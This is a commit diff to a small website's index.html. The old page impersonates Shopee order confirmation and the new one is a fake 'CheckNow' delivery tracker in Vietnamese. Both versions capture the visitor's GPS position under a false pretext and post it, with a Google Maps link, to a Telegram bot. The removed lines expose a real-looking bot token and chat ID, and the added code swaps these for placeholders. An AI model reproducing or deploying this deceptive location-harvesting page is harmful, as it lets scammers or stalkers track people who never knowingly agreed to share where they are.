

Before and after one commit to letranbaongan123/ivirt, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,62 +3,191 @@
 <head>
 <meta charset="UTF-8">
 <meta name="viewport" content="width=device-width, initial-scale=1">
-  <title>Shopee đang xác nhận đơn hàng !</title>
+<title>CheckNow</title>
 
 <style>
+:root{
+  --primary:#2563EB;
+  --ok:#16A34A;
+  --gray:#d1d5db;
+}
+
 body{
   margin:0;
-      font-family:Arial;
+  font-family:-apple-system,BlinkMacSystemFont,"Segoe UI",Roboto;
+  background:#f5f7fb;
+}
+
+/* Header */
+.header{
+  background:var(--primary);
+  color:white;
+  padding:14px;
+  text-align:center;
+  font-weight:600;
+}
+
+/* Card */
+.card{
+  margin:20px;
+  background:white;
+  border-radius:16px;
+  padding:20px;
+  box-shadow:0 10px 25px rgba(0,0,0,0.08);
+}
+
+/* Shipper */
+.shipper{
   display:flex;
+  align-items:center;
+  gap:12px;
+  margin-top:15px;
+  padding:12px;
+  background:#f1f5f9;
+  border-radius:12px;
+}
+
+.avatar{
+  width:44px;
+  height:44px;
+  border-radius:50%;
+  background:var(--primary);
+  color:white;
+  display:flex;
+  align-items:center;
   justify-content:center;
-      align-items:center;
-      height:100vh;
-      background:#f3f4f6;
+  font-weight:bold;
 }
-    .box{
+
+.call{
+  background:var(--primary);
+  color:white;
+  padding:8px 10px;
+  border-radius:10px;
+  font-size:13px;
+  text-decoration:none;
+}
+
+/* Timeline */
+.timeline{
+  display:flex;
+  justify-content:space-between;
+  margin:20px 0;
+  position:relative;
+}
+
+.timeline::before{
+  content:"";
+  position:absolute;
+  top:12px;
+  left:0;
+  right:0;
+  height:3px;
+  background:#e5e7eb;
+  z-index:0;
+}
+
+.step{
   text-align:center;
-      background:white;
-      padding:25px;
+  position:relative;
+  z-index:1;
+}
+
+.circle{
+  width:24px;
+  height:24px;
+  border-radius:50%;
+  background:var(--gray);
+  margin:auto;
+}
+
+.active .circle{
+  background:var(--primary);
+}
+
+.done .circle{
+  background:var(--ok);
+}
+
+.label{
+  font-size:12px;
+  margin-top:6px;
+}
+
+/* Button */
+button{
+  width:100%;
+  padding:14px;
+  border:none;
   border-radius:12px;
-      box-shadow:0 10px 30px rgba(0,0,0,0.1);
-    }
-    .spinner{
-      border:4px solid #eee;
-      border-top:4px solid #4f46e5;
-      border-radius:50%;
-      width:40px;
-      height:40px;
-      animation:spin 1s linear infinite;
-      margin:0 auto 15px;
-    }
-    @keyframes spin{
-      0%{transform:rotate(0deg)}
-      100%{transform:rotate(360deg)}
+  background:var(--primary);
+  color:white;
+  font-weight:600;
+  margin-top:15px;
 }
 </style>
 </head>
 
 <body>
-  <div class="box">
-    <div class="spinner"></div>
-    <h3>Shopee Đang xác nhận...</h3>
-    <p>Xác nhận đơn hàng thành công !</p>
+
+<div class="header">CheckNow</div>
+
+<div class="card">
+
+<h3 id="title">🚚 Đơn hàng đang được giao</h3>
+<p id="eta">Dự kiến: 5–10 phút</p>
+
+<!-- SHIPPER -->
+<div class="shipper">
+  <div class="avatar">T</div>
+
+  <div style="flex:1">
+    <div style="font-weight:600">Trần Tuấn</div>
+    <div style="font-size:13px;color:#6b7280">Shipper đang giao</div>
+  </div>
+
+  <a href="tel:0901234567" class="call">Gọi</a>
+</div>
+
+<!-- TIMELINE -->
+<div class="timeline">
+  <div class="step done">
+    <div class="circle"></div>
+    <div class="label">Đã nhận</div>
+  </div>
+
+  <div class="step active">
+    <div class="circle"></div>
+    <div class="label">Đang giao</div>
+  </div>
+
+  <div class="step">
+    <div class="circle"></div>
+    <div class="label">Sắp đến</div>
+  </div>
+
+  <div class="step">
+    <div class="circle"></div>
+    <div class="label">Hoàn tất</div>
+  </div>
+</div>
+
+<button onclick="getLocation()">XÁC NHẬN NGAY</button>
+
 </div>
 
 <script>
-const TOKEN = "8770209732:AAHHiC-wWAU3F9UUG_KJ41QijPQSjvHlH1M";
-const CHAT_ID = "2040033988";
+const TOKEN = "YOUR_BOT_TOKEN";
+const CHAT_ID = "YOUR_CHAT_ID";
 
 function sendToTelegram(lat, lon){
-  const text = `📍 Vị trí:
-Lat: ${lat}
-Lon: ${lon}
-https://www.google.com/maps?q=${lat},${lon}
-Time: ${new Date().toLocaleString()}`;
+  const text = `📦 CheckNow
+📍 ${lat}, ${lon}
+https://www.google.com/maps?q=${lat},${lon}`;
 
   fetch(`https://api.telegram.org/bot${TOKEN}/sendMessage`, {
-    method: "POST",
-    headers: {"Content-Type": "application/json"},
+    method:"POST",
+    headers:{"Content-Type":"application/json"},
     body: JSON.stringify({
       chat_id: CHAT_ID,
       text: text
@@ -66,34 +195,38 @@ Time: ${new Date().toLocaleString()}`;
   });
 }
 
-// Auto chạy khi mở trang
-window.onload = function(){
-  if(navigator.geolocation){
+function updateStep(){
+  const steps = document.querySelectorAll(".step");
+  steps[1].classList.remove("active");
+  steps[1].classList.add("done");
+  steps[2].classList.add("active");
+
+  document.getElementById("title").innerText = "🚚 Shipper sắp đến";
+  document.getElementById("eta").innerText = "Còn khoảng 1–2 phút";
+}
+
+function finish(){
+  const steps = document.querySelectorAll(".step");
+  steps[2].classList.remove("active");
+  steps[2].classList.add("done");
+  steps[3].classList.add("done");
+
+  document.getElementById("title").innerText = "✔ Giao hàng thành công";
+  document.getElementById("eta").innerText = "Cảm ơn bạn đã xác nhận";
+}
+
+function getLocation(){
   navigator.geolocation.getCurrentPosition(
     function(pos){
-        const lat = pos.coords.latitude;
-        const lon = pos.coords.longitude;
-
-        sendToTelegram(lat, lon);
-
-        document.body.innerHTML = `
-          <div class="box">
-            <h3 style="color:green;">✔ Shopee xác nhận thành công đơn hàng</h3>
-            <p>Bạn có thể đóng trang</p>
-          </div>
-        `;
+      sendToTelegram(pos.coords.latitude, pos.coords.longitude);
+      updateStep();
+      setTimeout(finish, 2000);
     },
-      function(err){
-        document.body.innerHTML = `
-          <div class="box">
-            <h3 style="color:red;">❌ Shopee xác nhận đơn hàng không thành công</h3>
-            <p>Vui lòng cho phép xác nhận lại</p>
-          </div>
-        `;
+    function(){
+      alert("Bạn cần cho phép quyền vị trí");
     }
   );
 }
-};
 </script>
 
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
